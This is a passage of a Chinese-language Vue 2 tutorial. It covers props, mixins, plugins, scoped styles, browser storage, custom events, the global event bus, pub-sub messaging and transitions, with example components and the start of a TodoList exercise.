        {name: '张三', age: 18, class: '三年级'},
        {name: '李四', age: 18, class: '三年级'},
        {name: '王五', age: 18, class: '三年级'},
      ]
    }
  }, methods: {},
}
</script>

<style scoped>

</style>
```


#### student.vue


```java
<template>
  <div>
    <h2>学生明细</h2>
    <h3 v-for="item in myStudents" :key="item.name">{{ item.name }},{{ item.age }},{{ item.class }}</h3>
  </div>
</template>

<script>
export default {
  name: "student",
  data(){
    return{
      myStudents: this.students
    }
  }
  /* ,props:[ 'students' ]*/
  ,props:{
    students:Array
  }
/*   ,props:{
     students:{
       type:Array,
       default:new  Array()
     }
   }*/
}
</script>
<style scoped>
</style>
```


### 4.props简写


```java
props: ['title', 'likes', 'isPublished', 'commentIds', 'author']
```


### 5.props限制类型


```java
props: {
  title: String,
  likes: Number,
  isPublished: Boolean,
  commentIds: Array,
  author: Object,
  callback: Function,
  contactsPromise: Promise // or any other constructor
}
```


### 6.其它 props 验证


> 我们可以为组件的 prop 指定验证要求，例如你知道的这些类型。如果有一个需求没有被满足，则 Vue 会在浏览器控制台中警告你。这在开发一个会被别人用到的组件时尤其有帮助。
>
> 为了定制 prop 的验证方式，你可以为 `props` 中的值提供一个带有验证需求的对象，而不是一个字符串数组。例如：


```java
  props: {
    // 基础的类型检查 (`null` 和 `undefined` 会通过任何类型验证)
    propA: Number,
    // 多个可能的类型
    propB: [String, Number],
    // 必填的字符串
    propC: {
      type: String,
      required: true
    },
    // 带有默认值的数字
    propD: {
      type: Number,
      default: 100
    },
    // 带有默认值的对象
    propE: {
      type: Object,
      // 对象或数组默认值必须从一个工厂函数获取
      default: function () {
        return { message: 'hello' }
      }
    },
    // 自定义验证函数
    propF: {
      validator: function (value) {
        // 这个值必须匹配下列字符串中的一个
        return ['success', 'warning', 'danger'].indexOf(value) !== -1
      }
    }
  }
```


### 7.数据发送的写法


```java
<student username1="userName" passWord2="passWord"></student>     //不推荐
<student v-bind:username1="userName" v-bind:passWord1="passWord"></student> //推荐
<student :username1="userName" :passWord2="passWord"></student>//强烈推荐
```


### 8.注意


+ 当 prop 验证失败的时候，(开发环境构建版本的) Vue 将会产生一个控制台的警告。

+ 注意那些 prop 会在一个组件实例创建**之前**进行验证，所以实例的 property (如 `data`、`computed` 等) 在 `default` 或 `validator` 函数中是不可用的。**（这句话的意思是，我们prop中是不可以使用vue其他property的，比如data里面的数据，但是data可以去使用prop的）**
+ props是只读的，Vue底层会监测你对props的修改，如果进行了修改，就会发出警告，若业务需求确实需要修改，那么请复制props的内容到data中一份，然后去修改data中的数据。


## 7.6：mixin混入


### 1.案例


我们开发的时候应该会有一些公共的方法，比如一些通用的方法，等等如图，那么我们可以使用混入`mixin`




### 2.mixin简介


混入 (mixin) 提供了一种非常灵活的方式，来分发 Vue 组件中的可复用功能。一个混入对象可以包含任意组件选项。当组件使用混入对象时，所有混入对象的选项将被“混合”进入该组件本身的选项。


简单说：

1. 功能：可以把多个组件共用的配置提取成一个混入对象

2. 使用方式：

   第一步定义混合：

   ```
   {
       data(){....},
       methods:{....}
       ....
   }
   ```

   第二步使用混入：

   ​	全局混入：```Vue.mixin(xxx)```
   ​	局部混入：```mixins:['xxx']	```


### 3.案例(局部混入)


#### mixin.js


在`src`目录下面创建一个mixin.js(名字可以自定义)，写入以下代码


```java
export const show = {
    data() {
       return{
           name: '小糊涂'
       }
    },
    methods: {
        showName() {
            console.log("*******点击了**********")
        }
    }
}
export const hunhe = {
    data() {
        return {
            x: 100,
            y: 200
        }
    },
}

```


#### Schools.vue


```java
<template>
  <div class="school">
    <h2 @click="showName">学校名称：{{ school.name }}</h2>
    <h2>学校地址：{{ school.address }}</h2>
  </div>
</template>

<script>
import {show,hunhe} from '../mixin/mixin'
export default {
  name: "Schools",
  data() {
    return {
      school: {
        name: '小糊涂大学',
        address: '天府之国',
      }
    }
  },mixins:[show,hunhe]

}
</script>

<style scoped>
.school {
  background-color: skyblue;
}
</style>
```


#### student.vue


```java
<template>
  <div>
    <h2 @click="showName">学生明细</h2>
  </div>
</template>

<script>
import {show,hunhe} from '../mixin/mixin'
export default {
    mixins:[show,hunhe]
}
</script>

<style scoped>

</style>
```


#### App.vue


```java
<template>
  <div>
    <schools></schools>
    <student></student>
  </div>
</template>

<script>
import student from "./components/student";
import schools from "./components/Schools";

export default {
  name: "App",
  components: {student, schools},
  data() {
    return {
      msg: '小糊涂',
    }
  }, methods: {},
}
</script>

<style scoped>

</style>
```


#### 测试




### 4.案例(全局混入)


[我们根据上一个案例](#3.案例(局部混合))：我们知道了局部混合，那么现在我们修改成全局混合，只需要在`main.js`引入混入即可,然后把其他组件里面的混入删除掉

```java
import Vue from 'vue'
import App from './App.vue'
import {show,hunhe} from './mixin/mixin'
    
Vue.config.productionTip = false
Vue.mixin(show)
Vue.mixin(hunhe)
    
new Vue({
    render: h => h(App),
}).$mount('#app')
```





### 5.混入和生命周期


当我们使用了混入时，并且还配置了生命周期，如下：

```java
export const  test = {
    data(){
      return{
          count:0
      }
    },
    mounted(){
        console.log('使用生命周期')
    }
}
```


这个时候就分为了两种情况：

+ 局部混入：每一个使用混入组件都会去调用一次生命周期
+ 全局混入：所有组件都会去调用生命周期


> 请谨慎使用全局混入，因为它会影响每个单独创建的 Vue 实例 (包括第三方组件)。大多数情况下，只应当应用于自定义选项，就像上面示例一样。推荐将其作为[插件](#7.7：插件)发布，以避免重复应用混入。


### 6.混入数据合并策略


我们在使用混入的时候，如果变量名相同的情况下比如：




这种的情况下，是以我们的引入方来决定的：




混入的策略也是可以修改的，但是不推荐，如有需要查看一下链接：

https://cn.vuejs.org/v2/guide/mixins.html


### 7.混入数据是否可以修改


这里不写代码了，图片替代：




**当我们使用混入对数据进行修改，那么当前组件内的数据才会改变。并且不影响其他组件内的数据。**如图所示：




## 7.7：插件


### 1.简介


1. 功能：用于增强Vue

2. 本质：包含install方法的一个对象，install的第一个参数是Vue，第二个以后的参数是插件使用者传递的数据。

3. 定义插件：

```java
对象.install = function (Vue, options) {
    // 1. 添加全局过滤器
    Vue.filter(....)

    // 2. 添加全局指令
    Vue.directive(....)

    // 3. 配置全局混入(合)
    Vue.mixin(....)

    // 4. 添加实例方法
    Vue.prototype.$myMethod = function () {...}
    Vue.prototype.$myProperty = xxxx
}
```

4. 使用插件：```Vue.use()```


### 2.案例


#### myPlujns.js


```java
export const obj = {
    install() {
        console.log("==========="+Date.now())
    }
}
```


#### main.js


```java
import Vue from 'vue'
import App from './App.vue'
import {obj} from '@/plujns/myPlujns'

Vue.config.productionTip = false

Vue.use(obj)//应用组件

new Vue({
    render: h => h(App),
}).$mount('#app')

```


#### 测试


启动游览器发现控制台打印输出


### 3.插件传参


#### myPlujns.js


```java
export const obj2 = {
    install(Vue,x,y,z) {
        console.log("==========="+Date.now())
        console.log("==========="+x)
        console.log("==========="+y)
        console.log("==========="+z)
    }
}
```


#### main.js


```java
import Vue from 'vue'
import App from './App.vue'
import {obj,obj2} from '@/plujns/myPlujns'

Vue.config.productionTip = false

Vue.use(obj)//应用组件
Vue.use(obj2,1,2,3)//应用组件

new Vue({
    render: h => h(App),
}).$mount('#app')
```


#### 测试


打开游览器，查看控制台打印


#### 注意


我们插件如果使用传参的话，那么第一个参数就是vue的示例，名字可以自定义


### 4.写一个自己的插件


```java
//当对象只有一个我们这样来写
export default {
	install(Vue,x,y,z){
		console.log(x,y,z)
		//全局过滤器
		Vue.filter('mySlice',function(value){
			return value.slice(0,4)
		})

		//定义全局指令
		Vue.directive('fbind',{
			//指令与元素成功绑定时（一上来）
			bind(element,binding){
				element.value = binding.value
			},
			//指令所在元素被插入页面时
			inserted(element,binding){
				element.focus()
			},
			//指令所在的模板被重新解析时
			update(element,binding){
				element.value = binding.value
			}
		})

		//定义混入
		Vue.mixin({
			data() {
				return {
					x:100,
					y:200
				}
			},
		})

		//给Vue原型上添加一个方法（vm和vc就都能用了）
		Vue.prototype.hello = ()=>{alert('你好啊')}
	}
}
```


## 7.8：scoped(CSS样式)


### 1.简介


1. 作用：让样式在局部生效，防止冲突。
2. 写法：```<style scoped>```


### 2.案例


#### 代码





#### 测试

我们发现样式冲突了




### 3.注意


+ `scoped`让样式在局部生效，防止冲突。
+ 如果使用less

```java
<style lang="less" scoped>
*{
  background: skyblue;
}
</style>
```


+ 安装less    cmd命令

```java
# Sass
npm install -D sass-loader sass

# Less
npm install -D less-loader less

# Stylus
npm install -D stylus-loader stylus
```


如果安装过后启动失败请降低版本。

```java
npm uninstall less-loader
npm install less-loader@版本 --save 
```


### 4.来个案例


学到这里我们可以看一下项目练习的： [目的](#目的) 到  [TodoList第一次总结](#TodoList第一次总结)


## 7.9：游览器的存储功能


### 1.简介


1. 存储内容大小一般支持5MB左右（不同浏览器可能还不一样）

2. 浏览器端通过 Window.sessionStorage 和 Window.localStorage 属性来实现本地存储机制。

3. 相关API：

   1. ```xxxxxStorage.setItem('key', 'value');```
      	该方法接受一个键和值作为参数，会把键值对添加到存储中，如果键名存在，则更新其对应的值。

   2. ```xxxxxStorage.getItem('person');```

      ​		该方法接受一个键名作为参数，返回键名对应的值。

   3. ```xxxxxStorage.removeItem('key');```

      ​		该方法接受一个键名作为参数，并把该键名从存储中删除。

   4. ``` xxxxxStorage.clear()```

      ​		该方法会清空存储中的所有数据。

4. 备注：

   1. SessionStorage存储的内容会随着浏览器窗口关闭而消失。
   2. LocalStorage存储的内容，需要手动清除才会消失。
   3. ```xxxxxStorage.getItem(xxx)```如果xxx对应的value获取不到，那么getItem的返回值是null。
   4. ```JSON.parse(null)```的结果依然是null。

 

### 2.localStorage


```java
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>localStorage</title>
	</head>
	<body>
		<h2>localStorage</h2>
		<button onclick="saveData()">点我保存一个数据</button>
		<button onclick="readData()">点我读取一个数据</button>
		<button onclick="deleteData()">点我删除一个数据</button>
		<button onclick="deleteAllData()">点我清空一个数据</button>

		<script type="text/javascript" >
			let p = {name:'张三',age:18}

			function saveData(){
				localStorage.setItem('msg','hello!!!')
				localStorage.setItem('msg2',666)
				localStorage.setItem('person',JSON.stringify(p))
			}
			function readData(){
				console.log(localStorage.getItem('msg'))
				console.log(localStorage.getItem('msg2'))

				const result = localStorage.getItem('person')
				console.log(JSON.parse(result))

				// console.log(localStorage.getItem('msg3'))
			}
			function deleteData(){
				localStorage.removeItem('msg2')
			}
			function deleteAllData(){
				localStorage.clear()
			}
		</script>
	</body>
</html>
```


### 3.sessionStorage


```java
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>sessionStorage</title>
	</head>
	<body>
		<h2>sessionStorage</h2>
		<button onclick="saveData()">点我保存一个数据</button>
		<button onclick="readData()">点我读取一个数据</button>
		<button onclick="deleteData()">点我删除一个数据</button>
		<button onclick="deleteAllData()">点我清空一个数据</button>

		<script type="text/javascript" >
			let p = {name:'张三',age:18}

			function saveData(){
				sessionStorage.setItem('msg','hello!!!')
				sessionStorage.setItem('msg2',666)
				sessionStorage.setItem('person',JSON.stringify(p))
			}
			function readData(){
				console.log(sessionStorage.getItem('msg'))
				console.log(sessionStorage.getItem('msg2'))

				const result = sessionStorage.getItem('person')
				console.log(JSON.parse(result))

				// console.log(sessionStorage.getItem('msg3'))
			}
			function deleteData(){
				sessionStorage.removeItem('msg2')
			}
			function deleteAllData(){
				sessionStorage.clear()
			}
		</script>
	</body>
</html>
```


### 4.来个案例


查看：[TodoList使用游览器本地缓存](#TodoList使用游览器本地缓存)


## 7.10：组件间的自定义事件


### 1.简介


1. 一种组件间通信的方式，适用于：<strong style="color:red">子组件 ===> 父组件</strong>

2. 使用场景：A是父组件，B是子组件，B想给A传数据，那么就要在A中给B绑定自定义事件（<span style="color:red">事件的回调在A中</span>）。


### 2.事先准备的组件

#### student.vue


```java
<template>
  <div>
    <h1>学生明细</h1>
    <h2>学生姓名：{{name}}</h2>
    <h2>学生性别：{{sex}}</h2>
    <h2>当前求和为：{{number}}</h2>
  </div>
</template>
<script>
export default {
  name:'student',
  data() {
    return {
      name:'张三',
      sex:'男',
      number:0
    }
  }
}
</script>
<style scoped>
*{
  background: skyblue;
}
</style>
```


App.vue


```java
<template>
  <div id="root">
    <student ></student>
  </div>
</template>

<script>
import student from "@/components/student";

export default {
  name: "App",
  components: {student},
  data() {
    return {
    }
  },
  methods: {
    test1() {
      console.log("test1")
    },
    test2(obj) {
      console.log("test2", obj)
    },
    test3(obj, obj2, obj3) {
      console.log("test3", obj, obj2, obj3)
    },
    test4(obj, ...params) {
      console.log("test4", obj, params)
    }
  }
}
</script>
<style >
*{
  background: #dddddd;
}
</style>
```


### 3.绑定自定义事件


> 以下代码统一定义在App.vue组件中

#### 第一种


```java
<template>
  <div id="root">
    <student @test1="test1"  v-on:test2="test2"></student>
  </div>
</template>
```


#### 第二种


```java
<template>
  <div id="root">
    <student  ref="test3"></student>
  </div>
</template>
<script>
export default {
  name: "App",
  components: {student},
  data() {
    return {}
  }, methods: {
    test3(obj, obj2, obj3) {
      console.log("test3", obj, obj2, obj3)
    }
  },mounted() {
    this.$refs.test3.$on("test3",this.test3);
  }
}
</script>
```


#### 第三种


```java
<template>
  <div id="root">
    <student  ref="test3"></student>
  </div>
</template>
<script>
export default {
  name: "App",
  components: {student},
  data() {
    return {}
  }
  },mounted() {
   this.$refs.test3.$on("test5", (json) => {
      console.log("test5", json)
    });
  }
}
</script>
```


### 4.触发自定义事件


> 以下代码均在student组件中写


#### 代码


```java
<template>
  <div>
    <h1>学生明细</h1>
    <h2>学生姓名：{{name}}</h2>
    <h2>学生性别：{{sex}}</h2>
    <h2>当前求和为：{{number}}</h2>
    <button @click="test1Btn">触发test1事件</button>
    <button @click="test23Btn">触发test2和test3事件</button>
  </div>
</template>
<script>
export default {
  name:'student',
  data() {
    return {
      name:'张三',
      sex:'男',
      number:0
    }
  },
  methods:{
    test1Btn(){
      this.$emit("test1");
    }
    ,test23Btn(){
      this.$emit("test2","test2的方法调用，我是它的参数");
      this.$emit("test3","test2的方法调用，我是它的参数1","test2的方法调用，我是它的参数2","test2的方法调用，我是它的参数3");
    }
  }
}
</script>
<style scoped>
</style>
```


#### 测试





### 5.解绑自定义事件


> 以下代码均在studen组件中编写


#### 代码


```java
<template>
  <div>
    <h1>学生明细</h1>
    <h2>学生姓名：{{name}}</h2>
    <h2>学生性别：{{sex}}</h2>
    <h2>当前求和为：{{number}}</h2>
    <button @click="test1Btn">触发test1事件</button>
    <button @click="test23Btn">触发test2和test3事件</button>
    <button @click="test3Btn">解绑test3和test4事件和test1事件</button>
  </div>
</template>

<script>

export default {
  name:'student',
  data() {
    return {
      name:'张三',
      sex:'男',
      number:0
    }
  },
  methods:{
    test1Btn(){
      this.$emit("test1");
    }
    ,test23Btn(){
      this.$emit("test2","test2的方法调用，我是它的参数");
      this.$emit("test3","test2的方法调用，我是它的参数1","test2的方法调用，我是它的参数2","test2的方法调用，我是它的参数3");
    },
    test3Btn(){
      this.$off("test1")//解绑一个
      this.$off(["test3","test4"])//解绑多个
      this.$off()//解绑了所有
    }

  }
}
</script>

<style scoped>
*{
  background: skyblue;
}
</style>


```


#### 测试




### 6.销毁自定义事件


> 以下代码均在student组件的method中

这里生命周期的钩子函数

```java
//完全销毁一个实例。清理它与其它实例的连接，解绑它的全部指令及事件监听器。
    death(){
				this.$destroy() //销毁了当前Student组件的实例，销毁后所有Student实例的自定义事件全都不奏效。
			}
```


### 7.问题


我们在app组件中想这样写

```java
 <student @click="test4"></student>
```

发现vue还是把它作为了自定义事件，我们只需要这样来做

```java
<student @click.native="test4"></student>
```


### 8.总结注意


1. 一种组件间通信的方式，适用于：<strong style="color:red">子组件 ===> 父组件</strong>

2. 使用场景：A是父组件，B是子组件，B想给A传数据，那么就要在A中给B绑定自定义事件（<span style="color:red">事件的回调在A中</span>）。

3. 绑定自定义事件：

   1. 第一种方式，在父组件中：```<Demo @atguigu="test"/>```  或 ```<Demo v-on:atguigu="test"/>```

   2. 第二种方式，在父组件中：

      ```js
      <Demo ref="demo"/>
      ......
      mounted(){
         this.$refs.xxx.$on('atguigu',this.test)
      }
      ```

   3. 若想让自定义事件只能触发一次，可以使用```once```修饰符，或```$once```方法。

4. 触发自定义事件：```this.$emit('atguigu',数据)```		

5. 解绑自定义事件```this.$off('atguigu')```

6. 组件上也可以绑定原生DOM事件，需要使用```native```修饰符。

7. 注意：通过```this.$refs.xxx.$on('atguigu',回调)```绑定自定义事件时，回调<span style="color:red">要么配置在methods中</span>，<span style="color:red">要么用箭头函数</span>，否则this指向会出问题！


### 9.来个案例


查看： [TodoLIst使用自定义事件](#TodoLIst使用自定义事件)

# 八、VUE脚手架(二)


## 8.1：全局事件总线（GlobalEventBus）


### 1.简介


EventBus 又称为事件总线。在Vue中可以使用 EventBus 来作为沟通桥梁的概念，就像是所有组件共用相同的事件中心，可以向该中心注册发送事件或接收事件，所以组件都可以上下平行地通知其他组件，但也就是太方便所以若使用不慎，就会造成难以维护的灾难，因此才需要更完善的**Vuex**作为状态管理中心，将通知的概念上升到共享状态层次。


### 2.需求分析






### 3.目标


```java
目标: 实现A向B通信

1. 确定全局事件总线: 将vm对象作为事件总线挂载到vue的原型对象上
	new Vue({
		beforeCreate () {
			Vue.prototype.$bus = this
		}
	})
2. A组件: 调用(分发)事件
	this.$bus.$emit('xxx', data)
3. B组件: 绑定事件监听
	this.$bus.$on('xxx', this.fn)
	
	methods{
		fn (data) {
			
		}
	}
功能: 实现任意组件间通信
4.使用完事件后要解绑事件
    this.$bus.$off('xxx')
```


### 4.案例


#### main.js


```java
import Vue from 'vue'
import App from './App.vue'

Vue.config.productionTip = false

window.x = {a: 1, b: 2}
new Vue({
    render: h => h(App),
    beforeCreate() {
        Vue.prototype.$bus = this
    }
}).$mount('#app')

```


#### Stuedent.vue


```java
<template>
  <div>
    <h1>学生明细</h1>
    <h2>学生姓名：{{name}}</h2>
    <h2>学生性别：{{sex}}</h2>
    <h2>当前求和为：{{number}}</h2>
    <h2>学校名字：{{schoolName}}</h2>
    <button @click="sendSchool">点我一下：把学生名字给组件学校</button>
  </div>
</template>
<script>
export default {
  name:'student',
  data() {
    return {
      name:'张三',
      sex:'男',
      number:0,
      schoolName:''
    }
  },methods:{
    sendSchool() {
      this.$bus.$emit('sendSchool',this.name);
    }
  },mounted() {
    this.$bus.$on("sendStudent",(data)=>{
      this.schoolName =data;
      console.log("学生组件绑定事件",data)
    })
 },beforeDestroy() {
    this.$bus.$off("sendStudent")
  }
}
</script>

<style scoped>
*{
  background: skyblue;
}
</style>
```


#### School.vue


```java
<template>
  <div class="school">
    <h2>学校名称：{{ school.name }}</h2>
    <h2>学校地址：{{ school.address }}</h2>
    <h2>学校学生名字：{{ school.studentName }}</h2>
    <button @click="sendStudent">点我一下：把学校名字给学生组件</button>
  </div>
</template>
<script>
export default {
  name: "Schools",
  data() {
    return {
      school: {
        name: '小糊涂大学',
        address: '天府之国',
        studentName: '',
      }
    }
  }, methods: {
    sendStudent() {
      this.$bus.$emit('sendStudent',this.school.name);
    }
  },
  mounted() {
    console.log(this.$bus)
    this.$bus.$on("sendSchool", (data) => {
      console.log(data)
      this.school.studentName = data
      console.log("学校组件绑定事件", data)
    })
   },beforeDestroy() {
    this.$bus.$off("sendSchool")
  }
}
</script>
<style scoped>
* {
  background: bisque;
}
</style>
```


#### 测试


记得再app.vue里面引用一下




### 5.总结


1. 一种组件间通信的方式，适用于<span style="color:red">任意组件间通信</span>。

2. 安装全局事件总线：

   ```js
   new Vue({
   	......
   	beforeCreate() {
   		Vue.prototype.$bus = this //安装全局事件总线，$bus就是当前应用的vm
   	},
       ......
   }) 
   ```

3. 使用事件总线：

   1. 接收数据：A组件想接收数据，则在A组件中给$bus绑定自定义事件，事件的<span style="color:red">回调留在A组件自身。</span>

      ```js
      methods(){
        demo(data){......}
      }
      ......
      mounted() {
        this.$bus.$on('xxxx',this.demo)
      }
      ```

   2. 提供数据：```this.$bus.$emit('xxxx',数据)```

4. 最好在beforeDestroy钩子中，用$off去解绑<span style="color:red">当前组件所用到的</span>事件。


```java
beforeDestroy() {
    this.$bus.$off("xxxx")
  }
```


### 6.来个练习


[TodoList全局时间总线](#TodoList全局时间总线)


### 7.插一句话


这个东西呢？全局消息总线记住比较难，其实就是利用vue的生命周期，在创建vc的时候把vue实例放到全局的Vue.prototype里面


## 8.2：消息订阅发布


### 1.简介


1. 一种组件间通信的方式，适用于<span style="color:red">任意组件间通信</span>。



### 2.怎么使用

   

   1. 安装pubsub：```npm i pubsub-js```

   2. 引入: ```import pubsub from 'pubsub-js'```

   3. 接收数据：A组件想接收数据，则在A组件中订阅消息，订阅的<span style="color:red">回调留在A组件自身。</span>

      ```js
      methods(){
        demo(data){......}
      }
      ......
      mounted() {
        this.pid = pubsub.subscribe('xxx',this.demo) //订阅消息
      }
      ```

   4. 提供数据：```pubsub.publish('xxx',数据)```

   5. 最好在beforeDestroy钩子中，用```PubSub.unsubscribe(pid)```去<span style="color:red">取消订阅。</span>


### 3.案例


#### 安装


```java
import pubsub from 'pubsub-js
```


#### student.vue


```java
<template>
  <div>
    <h1>学生明细</h1>
    <h2>学生姓名：{{name}}</h2>
    <h2>学生性别：{{sex}}</h2>
    <h2>当前求和为：{{number}}</h2>
    <h2>学校名字：{{schoolName}}</h2>
    <button @click="sendSchool">点我一下：把学生名字给组件学校</button>
  </div>
</template>

<script>

import pubsub from  'pubsub-js'
export default {
  name:'student',
  data() {
    return {
      name:'张三',
      sex:'男',
      number:0,
      schoolName:''
    }
  },methods:{
    sendSchool() {
      pubsub.publish('sendSchool',this.name,100)
    }
  },mounted() {
    pubsub.subscribe('sendStudent',(msg)=>{
      console.log(msg)
    })
  }
}
</script>
<style scoped>

</style>
```


#### Schools.vue


```java
<template>
  <div class="school">
    <h2>学校名称：{{ school.name }}</h2>
    <h2>学校地址：{{ school.address }}</h2>
    <h2>学校学生名字：{{ school.studentName }}</h2>
    <button @click="sendStudent">点我一下：把学校名字给学生组件</button>
  </div>
</template>

<script>
import pubsub from 'pubsub-js'

export default {
  name: "Schools",
  data() {
    return {
      school: {
        name: '小糊涂大学',
        address: '天府之国',
        studentName: '',
      }
    }
  }, methods: {
    sendStudent() {
      pubsub.publish('sendStudent', this.school.name)
    }
  },
  mounted() {
    pubsub.subscribe('sendSchool', (msg, data) => {
      console.log("收到信息:", msg, data)
    })
  }, beforeDestroy() {
  }

}
</script>
<style scoped>

</style>
```


#### 测试


页面自己点击


### 来个练习


[学完之后看TodoList消息订阅与发布](#TodoList消息订阅与发布)


## 8.3：nextTick


1. 语法：`this.$nextTick(回调函数)`
2. 作用：在下一次 DOM 更新结束后执行其指定的回调。
3. 什么时候用：当改变数据后，要基于更新后的新DOM进行某些操作时，要在nextTick所指定的回调函数中执行。


## 8.4：Vue封装的过度与动画


### 1.简介


1. 作用：在插入、更新或移除 DOM元素时，在合适的时候给元素添加样式类名。

2. 图示：

3. 写法：

   1. 准备好样式：

      - 元素进入的样式：
        1. v-enter：进入的起点
        2. v-enter-active：进入过程中
        3. v-enter-to：进入的终点
      - 元素离开的样式：
        1. v-leave：离开的起点
        2. v-leave-active：离开过程中
        3. v-leave-to：离开的终点

   2. 使用```<transition>```包裹要过度的元素，并配置name属性：

      ```vue
      <transition name="hello">
      	<h1 v-show="isShow">你好啊！</h1>
      </transition>
      ```

   3. 备注：若有多个元素需要过度，则需要使用：```<transition-group>```，且每个元素都要指定```key```值。


### 2.动画效果


#### 动画的CSS3写法


这里面的动画效果的命名格式必须如下：


- 元素进入的样式：
  1. **动画名字-enter**：进入的起点
  2. **动画名字-enter-active**：进入过程中
  3. **动画名字-enter-to**：进入的终点
- 元素离开的样式：
  1. **动画名字-leave**：离开的起点
  2. **动画名字-leave-active**：离开过程中
  3. **动画名字-leave-to**：离开的终点


```java
.hello-enter-active{
  animation: donghuaName 1s linear;
}

.hello-leave-active{
  animation: donghuaName 1s linear reverse;
}
@keyframes donghuaName {
  from{
    transform: translateX(-100%);
  }
  to{
    transform: translateX(0px);
  }
}
```


#### vue动画标签


这里的`name`属性和`appear`都是缺一不可

```java
<transition name="动画名字" appear>
</transition>
```


#### 例子


```java
<template>
<div>

  <button @click="isShow=!isShow">点我消失与隐藏</button>
  <transition name="hello" appear>
    <h1 v-show="isShow">你好啊！</h1>
  </transition>
</div>
</template>

<script>
export default {
  name: "Test",
  data(){
     return{
       isShow:true
     }
  }
}
</script>

<style scoped>
h1{
  background-color: orange;
}

.hello-enter-active{
  animation: donghuaName 1s linear;
}

.hello-leave-active{
  animation: donghuaName 1s linear reverse;
}

@keyframes donghuaName {
  from{
    transform: translateX(-100%);
  }
  to{
    transform: translateX(0px);
  }
}
</style>
```


#### 测试




### 3.过度效果


#### 动画的CSS3写法


这里面的动画效果的命名格式必须如下：


- 元素进入的样式：
  1. **动画名字-enter**：进入的起点
  2. **动画名字-enter-active**：进入过程中
  3. **动画名字-enter-to**：进入的终点
- 元素离开的样式：
  1. **动画名字-leave**：离开的起点
  2. **动画名字-leave-active**：离开过程中
  3. **动画名字-leave-to**：离开的终点


```java
<style scoped>
	h1{
		background-color: orange;
	}
	/* 进入的起点、离开的终点 */
	.hello-enter,.hello-leave-to{
		transform: translateX(-100%);
	}
	.hello-enter-active,.hello-leave-active{
		transition: 0.5s linear;
	}
	/* 进入的终点、离开的起点 */
	.hello-enter-to,.hello-leave{
		transform: translateX(0);
	}

</style>
```


#### vue动画标签


这里的`name`属性和`appear`都是缺一不可

```java
	<div>
		<button @click="isShow = !isShow">显示/隐藏</button>
		<transition name="hello" appear>
			<h1 v-show="!isShow" key="1">你好啊！</h1>
		</transition>
	</div>
```


### 4.多个元素同时使用过度或者动画


备注：若有多个元素需要过度，则需要使用：`<transition-group>`，且每个元素都要指定`key`值


```java
	<div>
		<button @click="isShow = !isShow">显示/隐藏</button>
		<transition-group name="hello" appear>
			<h1 v-show="!isShow" key="1">你好啊！</h1>
			<h1 v-show="isShow" key="2">小糊涂！</h1>
		</transition-group>
	</div>
```


### 5.使用第三方的库


#### 简介


我们在开发的时候会使用第三方的动画效果，或者是别人写好的动画效果：

- 元素进入的样式：
  1. **enter-class**：进入的起点
  2. **enter-active-class**：进入过程中
  3. **enter-to-class**：进入的终点
- 元素离开的样式：
  1. **leave-class**：离开的起点
  2. **leave-active-class**：离开过程中
  3. **leave-to-class**：离开的终点


> 使用方式如下：
>
> 1.首先先引入第三方类animated.css
>
> 2.将你所需要动画的标签用包裹起来
>
> 3.在transition元素中添加enter-active-class/leave-active-class入场离场属性但是设置的值前面必须加上animated（当然也可以不在transition上设置animated，可以在你所要进行动画的标签上设置class属性为animated）
>
> 4.也可以加入:duration来统一设置入场和离场时候的时长


#### 案例


```java
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta http-equiv="X-UA-Compatible" content="ie=edge">
    <title>Document</title>
    <script src="lib/vue.js"></script>
    <link rel="stylesheet" href="lib/animate.css">
</head>
<body>
    <div id="app">
        <input type="button" value="toggle" @click="flag=!flag">
        <!-- <transition enter-active-class="animated bounceIn" leave-active-class="animated bounceOut">
                <h3 v-if="flag">这是一个H3</h3>
        </transition> -->
        <transition enter-active-class="bounceIn" leave-active-class="bounceOut" :duration:"400">
                <h3 v-if="flag" class="animated">这是一个H3</h3>
        </transition>
    </div>
    <script>
        var vm=new Vue({
            el:'#app',
            data:{
                flag:false
            },
            methods:{

            }
        })
    </script>
</body>
</html>
```


## 8.5：插槽


## 8.6：axios


## 8.7：vue-resour


## 8.8：跨域


# 项目练习：TodoList


## 目的


**组件化编码流程（通用）** 

1.实现静态组件：抽取组件，使用组件实现静态页面效果 

2.展示动态数据： 

2.1. 数据的类型、名称是什么？ 

2.2. 数据保存在哪个组件？ 

3.交互——从绑定事件监听开始


## 要先学到哪里


[学习到7.8：scoped(CSS样式](#7.8：scoped(CSS样式))之前


## 静态页面


### 基本文件


main.js什么的都不要变化


### App.vue


```java
<template>
  <div id="root">
    <div class="todo-container">
      <div class="todo-wrap">
          <MyHead></MyHead>
          <MyList></MyList>
          <MyFooter></MyFooter>
      </div>
    </div>
  </div>
</template>

<script>
import MyList from "@/components/todoList/MyList";
import MyFooter from "@/components/todoList/MyFooter";
import MyHead from "@/components/todoList/MyHeader";


export default {
  name: "App",
  components: {MyList, MyFooter, MyHead},
  data() {
    return {
      msg: '小糊涂',
    }
  }, methods: {},
}
</script>
<style >
/*base*/
body {
  background: #fff;
}

.btn {
  display: inline-block;
  padding: 4px 12px;
  margin-bottom: 0;
  font-size: 14px;
  line-height: 20px;
  text-align: center;
  vertical-align: middle;
  cursor: pointer;
  box-shadow: inset 0 1px 0 rgba(255, 255, 255, 0.2), 0 1px 2px rgba(0, 0, 0, 0.05);
  border-radius: 4px;
}

.btn-danger {
  color: #fff;
  background-color: #da4f49;
  border: 1px solid #bd362f;
}

.btn-danger:hover {
  color: #fff;
  background-color: #bd362f;
}

.btn:focus {
  outline: none;
}

.todo-container {
  width: 600px;
  margin: 0 auto;
}

.todo-container .todo-wrap {
  padding: 10px;
  border: 1px solid #ddd;
  border-radius: 5px;
}

</style>
```


### MyFooter.vue


```java
<template>
  <div class="todo-footer">
    <label>
      <input type="checkbox"/>
    </label>
    <span>
          <span>已完成0</span> / 全部2
        </span>
    <button class="btn btn-danger">清除已完成任务</button>
  </div>
</template>

<script>
export default {
  name: "MyFooter",
  data() {
    return {}
  }
}
</script>

<style scoped>

/*footer*/
.todo-footer {
  height: 40px;
  line-height: 40px;
  padding-left: 6px;
  margin-top: 5px;
}

.todo-footer label {
  display: inline-block;
  margin-right: 20px;
  cursor: pointer;
}

.todo-footer label input {
  position: relative;
  top: -1px;
